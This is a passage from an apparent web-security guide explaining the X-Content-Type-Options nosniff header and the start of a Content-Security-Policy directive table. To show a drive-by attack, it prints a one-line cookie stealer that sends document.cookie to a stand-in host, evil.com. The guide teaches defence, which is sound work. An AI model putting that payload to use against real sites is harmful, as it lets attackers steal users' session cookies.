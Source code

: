 
#### An Example of Drive-by Scenario (Without `nosniff` enabled): {#an-example-of-drive-by-scenario--without-nosniff-enabled}

Suppose you have a document-sharing feature and host files at: <https://example.com/files/user-uploaded.pdf> but an attacker uploads a malicious file disguised as a PDF named `invoice.pdf`. And your webserver serves it as `Content-Type: application/pdf`

But its actual content is a cookie stealer like below.

```js
  <script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

If `X-Content-Type-Options` is **missing**, and the user visits:

```cfg
<iframe src="https://example.com/files/invoice.pdf"></iframe>
```

Some browsers may sniff the file and execute the script, turning a benign file-hosting service into a drive-by attack vector allowing attackers to steal cookies without any interaction.


#### Best Practice: {#best-practice}

Always use this header, especially when serving user uploaded files or dynamic content to reduce the risk of drive-by downloads or cross-site scripting via unexpected file interpretation.

```cfg
X-Content-Type-Options: nosniff
```

This will ensure browsers do **not override the declared MIME type** that is provided by the web server &amp; prevent the browser from accidentally executing files as scripts.

It can help protect against:

-   XSS from mislabeled files
-   Drive-by downloads
-   Content spoofing


### Content-Security-Policy (CSP): {#content-security-policy--csp}

CSP is one of the most powerful security headers, allowing fine-grained control over resource loading and execution.

+Important+: Testing **HAS** to be conducted after defining this policy, as if misconfigured it could disable inline JavaScript &amp; CSS effectively disabling elements of the site. However a properly defined CSP can help prevent several different attack vectors such as cross-site scripting (XSS), click jacking and other cross-site injection attacks.


#### CSP Directives Explained {#csp-directives-explained}

| Directive                 | Purpose                                                             | Example                          |
|---------------------------|---------------------------------------------------------------------|----------------------------------|
| base-uri                  | Define the base URI for relative URIs                               | 'self'                           |
| default-src               | Fallback for other directives                                       | 'self'                           |
| script-src                | Controls JavaScript sources                                         | 'self' 'unsafe-inline'           |
| object-src                | Controls allowed plugin/object/embed sources                        | 'none'                           |
| style-src                 | Controls CSS sources                                                | 'self' 'unsafe-inline'           |
| img-src                   | Controls image sources                                              | 'self' data: https:              |
| media-src                 | Controls video and audio sources                                    | media.example.com                |